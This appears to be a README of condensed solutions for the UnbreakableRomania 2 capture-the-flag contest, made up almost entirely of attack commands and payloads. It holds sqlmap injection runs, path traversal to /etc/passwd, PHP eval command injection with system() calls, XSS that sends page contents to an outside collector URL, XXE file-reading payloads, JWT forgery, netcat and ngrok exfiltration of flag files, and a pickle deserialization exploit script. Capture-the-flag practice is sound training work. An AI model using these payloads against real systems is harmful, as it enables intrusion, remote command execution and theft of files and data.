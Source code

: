 # writeups

## https://blog.kuhi.to/unbreakable-romania-2-writeup

### Small data leak

sqlmap -u http://35.198.183.125:30321/user?id=1;
sqlmap -u http://35.198.183.125:30321/user?id=1 --dbs
sqlmap -u http://35.198.183.125:30321/user?id=1 -D public --tables
sqlmap -u http://35.198.183.125:30321/user?id=1 -D public -T 'ctf{70ff919c37a20d6526b02e88c950271a45fa698b037e3fb898ca68295da' --columns


### File Crawler

http://34.141.25.94:32191/local?image_name=..//..//..//etc/passwd
http://34.141.25.94:32191/local?image_name=..////tmp//flag


### Substitute
http://35.246.170.233:31993/?vector=/Admin/e&replace=phpinfo()
http://35.246.170.233:31993/?vector=/Admin/e&replace=system("ls -l")
http://35.246.170.233:31993/?vector=/Admin/e&replace=system("ls here_we_dont_have_flag -l")
http://35.246.170.233:31993/?vector=/Admin/e&replace=system("cat here_we_dont_have_flag/flag.txt")


### manual-review

<script>
    window.location.href = "https://eoifpwfcq85jqhy.m.pipedream.net"
</script>


### syntax check

burpsuite

<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY exfiltrate SYSTEM "/etc/passwd">
]>
<foo>&exfiltrate;</foo>

<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY exfiltrate SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/flag">
]>
<foo>&exfiltrate;</foo>

### Under Construction
https://github.com/ticarpi/jwt_tool

python3 jwt_tool.py -t http://35.198.93.134:30791/api/app/admin -rc
"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTIsImlhdCI6MTYzNTkzNjY4OCwiZ
XhwIjoxNjM2MDIzMDg4fQ.tQ2KlBU8tI5V1Akiqhwy2LSEOF9oBTvnYFs_xgwro04" -C -d
~/sss.txt 
https://jwt.io/

### Downloader v1

ngrok needed

ngrok http 7777

nc - lvnp 7777

https://eoifpwfcq85jqhy.m.pipedream.net/test.php --post-file '/var/www/html/flag.php'


###  Framable

<script>
    let html = document.body.innerHTML;
    window.location.href = "https://eoifpwfcq85jqhy.m.pipedream.net?bob=" + btoa(html)
</script>

atob('')

### alfa-cookie

cmd = ('ls -lah | nc 2.tcp.ngrok.io 17855')

https://blog.kuhi.to/unbreakable-romania-2-writeup

### Rundown
```
import pickle as cPickle
import base64
import os
import string
import requests
import time
class Exploit(object):
    def __reduce__(self):
        return (eval, ('eval(open("flag","r").read())', ))
def sendPayload(p):
    newp = base64.urlsafe_b64encode(p).decode()
    headers = {'Content-Type': 'application/T3jv1l'}
    r = requests.post("http://34.107.45.139:30396/",headers=headers,data=newp)
    return r.text
    
payload_dec = cPickle.dumps(Exploit(), protocol=2)
print("ctf{" + sendPayload(payload_dec).split("ctf{")[1].split("}")[0] +"}")
```
